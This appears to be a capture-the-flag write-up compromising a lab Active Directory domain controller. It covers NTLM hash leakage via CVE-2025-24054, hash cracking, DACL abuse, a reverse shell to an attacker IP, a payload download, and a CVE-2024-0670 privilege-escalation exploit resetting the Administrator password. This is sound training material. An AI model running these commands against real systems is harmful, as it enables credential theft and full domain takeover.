<h2 class="highlight_h2">Attack Path</h2>
<div class="path">
    <div class="node">Recon (nmap)</div>
    <div class="node">Capturing Net-NTLMv2 hash with CVE-2025-24054</div>
    <div class="node">Cracking the web_svc password</div>
    <div class="node">DACL Abuse -> obtaining the monitoring_svc account</div>
    <div class="node root">Privilege Escalation via CVE-2024-0670</div>
</div>

## ~$ Reconnaissance 

#### > nmap
```bash
└─$ sudo nmap -sC -sV -Pn -p- $IP 
```

```bash
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
80/tcp    open  http              Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-title: Nanocorp
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2026-05-16 01:40:23Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: nanocorp.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: nanocorp.htb, Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
3389/tcp  open  ms-wbt-server     Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC01.nanocorp.htb
| Not valid before: 2026-05-15T00:43:29
|_Not valid after:  2026-11-14T00:43:29
| rdp-ntlm-info: 
|   Target_Name: NANOCORP
|   NetBIOS_Domain_Name: NANOCORP
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: nanocorp.htb
|   DNS_Computer_Name: DC01.nanocorp.htb
|   DNS_Tree_Name: nanocorp.htb
|   Product_Version: 10.0.20348
|_  System_Time: 2026-05-16T01:41:13+00:00
|_ssl-date: 2026-05-16T01:41:54+00:00; +6h59m58s from scanner time.
5986/tcp  open  ssl/wsmans?
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.nanocorp.htb
| Subject Alternative Name: DNS:dc01.nanocorp.htb
| Not valid before: 2025-04-06T22:58:43
|_Not valid after:  2026-04-06T23:18:43
| tls-alpn: 
|   h2
|_  http/1.1
6556/tcp  open  check_mk          check_mk extension for Nagios 2.1.0p10
9389/tcp  open  mc-nmf            .NET Message Framing
49664/tcp open  msrpc             Microsoft Windows RPC
49668/tcp open  msrpc             Microsoft Windows RPC
58226/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
58231/tcp open  msrpc             Microsoft Windows RPC
58245/tcp open  msrpc             Microsoft Windows RPC
58258/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-05-13T23:18:41
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 6h59m58s, deviation: 0s, median: 6h59m57s
```

#### > Takeaways

<div class="takeaways_block">
<p class="takeaways_p">web on nanocorp.htb</p>

<p class="takeaways_p">DC name -> dc01.nanocorp.htb</p>

<p class="takeaways_p">clock skew +7h</p>

<p class="takeaways_p">check_mk is running on port 6556/tcp</p>
</div>

## ~$ check_mk
[checkmk](https://github.com/Checkmk/checkmk) is used to monitor servers, networks, applications, cloud environments, and databases, alerting administrators to performance issues or outages.

Get the output from the checkmk:
```bash
└─$ nc 10.129.243.199 6556 > checkmk.txt
```
The output:
```bash
<<<check_mk>>>
Version: 2.1.0p10
BuildDate: Aug 19 2022
AgentOS: windows
Hostname: DC01
Architecture: 64bit
WorkingDirectory: C:\Windows\system32
ConfigFile: C:\Program Files (x86)\checkmk\service\check_mk.yml
LocalConfigFile: C:\ProgramData\checkmk\agent\check_mk.user.yml
AgentDirectory: C:\Program Files (x86)\checkmk\service
PluginsDirectory: C:\ProgramData\checkmk\agent\plugins
StateDirectory: C:\ProgramData\checkmk\agent\state
ConfigDirectory: C:\ProgramData\checkmk\agent\config
TempDirectory: C:\ProgramData\checkmk\agent\tmp
LogDirectory: C:\ProgramData\checkmk\agent\log
SpoolDirectory: C:\ProgramData\checkmk\agent\spool
LocalDirectory: C:\ProgramData\checkmk\agent\local
# ...
```
<span class="highlight_info">checkmk version -> 2.1.0p10</span>

## ~$ web

The web presents a simple landing page.

The <span class="highlight">About Us</span> section contains a link (a button <span class="highlight">Apply Now</span>) that leads us to visit a new subdomain called <span class="highlight_link">hire.nanocorp.htb</span>:


The root page of <span class="highlight_link">hire</span> subdomain contains a submission form:


This form accepts a resume in a zip-file for getting a job in the NanoCorp.

Researching known vulnerabilities reveals -> <span class="highlight_link ">CVE-2025-24054</span>

## ~$ Foothold

<span class="highlight_link ">CVE-2025-24054</span> -> Capture Net-NTLMv2 hash

[-> sentinelone.com](https://www.sentinelone.com/vulnerability-database/cve-2025-24054/)

[-> PoC by hilidem (github)](https://github.com/helidem/CVE-2025-24054_CVE-2025-24071-PoC/blob/main/exploit.py)

This vulnerability stems from how Windows Explorer handles UNC paths embedded in specific file types when extracting an archive.

When the UNC path links to the attacker-controlled  resource -> the Windows NTLM client initiates authentication against the attacker-controlled server, leaking the NTLMv2 hash.

Moreover, the leakage occurs with minimal user interaction -> before the user even opens or executes the file. So, simply having the file land in a folder that gets indexed/previewed, or extracting an archive, can be enough to trigger outbound authentication.

As a successful result of the attack, the attacker captures an NTLMv2 hash.

<h4 class="highlight_h4">1 -> Create a .library-ms file</h4> 
Several scripts are available online to generate the payload. I just copy a payload from the github advisory and change the UNC path to my smb share:



<h4 class="highlight_h4">2 -> Create a zip archive</h4>

Make the archive:
```bash
└─$ zip ./resume.zip .library-ms
```

<h4 class="highlight_h4">3 -> run the responder</h4>

Meanwhile, run  the responder:
```bash
└─$ sudo responder -I tun0
```

---

The last step -> submit the resume:


After some time we'll get the NTLMv2 hash:


## ~$ Password Cracking

The captured NTLMv2 hash is saved to <span class="highlight_filename">web_svc.ntlm</span> and then passed to <span class="highlight_tools">hashcat</span>:
```bash
└─$ hashcat -a 0 -m 5600 web_svc.ntlm /usr/share/wordlists/rockyou.txt 
```

As a result we obtain a password:


At this point, we got valid creds.

<p class="highlight_info">[+] creds -> web_svc : dksehdgh712!@#</p>

## ~$ Bloodhound

Gathering domain information using <span class="highlight_tools">rusthound</span> tool:
```bash
└─$ rusthound --domain nanocorp.htb -u 'web_svc' -p 'dksehdgh712!@#' -z
```


Of course, next step is to upload this archive with gathered information to <span class="highlight_tools">bloodhound</span>. 

Now, we control the <span class="highlight_username">web_svc</span> account that as shown in the below screenshot has <span class="highlight">addSelf</span> rights over the <span class="highlight">IT_SUPPORT</span> group. 

Members of the <span class="highlight">IT_SUPPORT</span> group can change password for the <span class="highlight_username">monitoring_svc</span> account (<span class="highlight">ForceChangePassword</span> rights).



The result is access to the <span class="highlight_username">monitoring_svc</span> account that is member of two additional groups:

1 -> <span class="highlight">Protected users</span> group: applies to the account additional security requirements.

2 -> <span class="highlight">Remote Management Users</span> group: gives us remote access to the target (we'll use the <span class="highlight_tools">evil-winrm</span>).



More details about Protected Users group -> [Microsoft docs](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group)

## ~$ Obtaining the monitoring_svc Account via DACL Abuse

[-> specteros](https://bloodhound.specterops.io/resources/edges/add-self)

[-> hacking articles](https://www.hackingarticles.in/addself-active-directory-abuse/)

<h3 class="highlight_h3">> Add web_svc into IT_SUPPORT group:</h3>
list members of the <span class="highlight">IT_SUPPORT</span> group:
```bash
net rpc group members "IT_SUPPORT" -U nanocorp.htb/web_svc%'dksehdgh712!@#' -S 10.129.243.199 
```
Since <span class="highlight_username">web_svc</span> has not yet been added to the group, the output is empty.

Using <span class="highlight_tools">bloodyAD</span> to leverage the <span class="highlight">addSelf</span> right:
```bash
bloodyAD --host '10.129.243.199' -d 'nanocorp.htb' -u 'web_svc' -p 'dksehdgh712!@#' add groupMember "IT_SUPPORT" "web_svc"
```

Then  again try to run previous command:
```bash
net rpc group members "IT_SUPPORT" -U nanocorp.htb/web_svc%'dksehdgh712!@#' -S 10.129.243.199 
```


<h3 class="highlight_h3">-> Change the password of the monitoring_svc</h3>

```bash
└─$ bloodyAD --host 10.129.243.199 -d nanocorp.htb -u web_svc -p 'dksehdgh712!@#' set password 'monitoring_svc' 'Qwe123!@#'
```

## ~$ Get TGT for monitoring_svc user
Kerberos authentication requires the client's clock to be within 5 minutes of the DC's time.
To do so I will use <span class="highlight_tools">faketime</span>.
The clock skew is 7h as the nmap reveals: 
```bash
|_clock-skew: 6h59m59s
```

```bash
faketime -f '+7h' getTGT.py nanocorp.htb/monitoring_svc:'Qwe123!@#' -dc-ip 10.129.243.199
```




Connect to the target:
```bash
└─$ faketime -f '+7h' evil-winrm -i10.129.243.199 -r nanocorp.htb -K monitoring_svc.ccache -S
```



<span class="highlight_info">[+] C:\Users\monitoring_svc\Desktop\user.txt</span>


## ~$ PrivEsc

There is an uncommon program on the target that was identified earlier during nmap scanning:
```bash
*Evil-WinRM* PS C:\Users\monitoring_svc\Documents> ls 'C:\Program Files (x86)'


    Directory: C:\Program Files (x86)


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          4/5/2025   4:17 PM                checkmk
#...
```

The version <span class="highlight">2.1.0p10</span> is affected by <span class="highlight_tools">CVE-2024-0670</span>. 


Detailed review of this CVE can be found via this link -> [link](https://sec-consult.com/vulnerability-lab/advisory/local-privilege-escalation-via-writable-files-in-checkmk-agent/)


<h3 class="highlight_h3">CVE-2024-0670</h3>

The exploit relies on a race condition -> by flooding <span class="highlight">C:\Windows\Temp\ </span> with read-only `.cmd` files matching the pattern used by the `checkmk` agent, one of them gets executed in the SYSTEM context during the repair process.

The final step of the exploit involves **triggering a software repair via the MSI installer**.

Look for the MSI:
```bash
Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Installer\UserData\S-1-5-18\Products\*\InstallProperties' | Where-Object { $_.DisplayName -like '*mk*' } | Select-Object -First 1 | Select LocalPackage
```
Output:
```bash
LocalPackage
------------
C:\Windows\Installer\1e6f2.msi
```

Command for initiating the repair:
```bash
cmd /c 'msiexec /fa C:\Windows\Installer\1e6f2.msi'
```

If we try to run installer by <span class="highlight_username">monitoring_svc</span> -> we'll get a fail:

```bash
*Evil-WinRM* PS C:\Users\monitoring_svc> cmd /c 'msiexec /fa C:\Windows\Installer\1e6f2.msi'
The Windows Installer Service could not be accessed. This can occur if the Windows Installer is not correctly installed. Contact your support personnel for assistance.
```
The user <span class="highlight_username">monitoring_svc</span> does not have sufficient privileges to perform this repair.

It is possible that the user <span class="highlight_username">web_svc</span> has needed privileges. Therefore, <span class="highlight_tools">RunasCs.exe</span> is transferred to the target to spawn a reverse shell as <span class="highlight_username">web_svc</span>:

```bash
*Evil-WinRM* PS C:\Users\monitoring_svc> .\RunasCs.exe web_svc 'dksehdgh712!@#' cmd.exe -r 10.10.14.122:2323

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-d170ff$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 5712 created in background.
```

The listener accepts the connection on port 2323. The default shell is cmd.exe, but it is switched to PowerShell.
```bash
PS C:\Users\web_svc> cmd /c 'msiexec /fa C:\Windows\Installer\1e6f2.msi'
cmd /c 'msiexec /fa C:\Windows\Installer\1e6f2.msi'
PS C:\Users\web_svc>
```
As shown above, no error is returned -> confirming that <span class="highlight_username">web_svc</span> has sufficient privileges to initiate the repair.

I created the following file:

```bash
└─$ cat pwn.cmd
net user Administrator H4ck3D!
```
This simply changes the Administrator's password. 

Transfer this file to the target:
```bash
*Evil-WinRM* PS C:\Users\monitoring_svc> iwr -Uri http://10.10.14.122:9090/pwn.cmd -Outfile pwn.cmd 
```

Then create files in the <span class="highlight">C:\Windows\Temp\ </span> directory:
```bash
*Evil-WinRM* PS C:\Users\monitoring_svc> 1..12000 | foreach {
  copy C:\Users\monitoring_svc\pwn.cmd C:\Windows\Temp\cmk_all_${_}_1.cmd;
  Set-ItemProperty -path C:\Windows\Temp\cmk_all_${_}_1.cmd -name IsReadOnly -value $true;
}
```

And from <span class="highlight_username">web_svc</span> user run this command:
```bash
PS C:\Users\web_svc> cmd /c 'msiexec /fa C:\Windows\Installer\1e6f2.msi'
```

After successful exploitation we can check if the Administrator's password was changed:
```bash
└─$ nxc smb nanocorp.htb -u 'Administrator' -p 'H4ck3D!'
SMB         10.129.34.35    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:nanocorp.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.34.35    445    DC01             [+] nanocorp.htb\Administrator:H4ck3D! (Pwn3d!)
```

Finally, connecting as <span class="highlight_username">Administrator</span>
```bash
└─$ evil-winrm -u Administrator -p 'H4ck3D!' -i 10.129.243.199 -S               
```

<span class="highlight_info">[+] C:\Users\Administrator\Desktop\root.txt</span>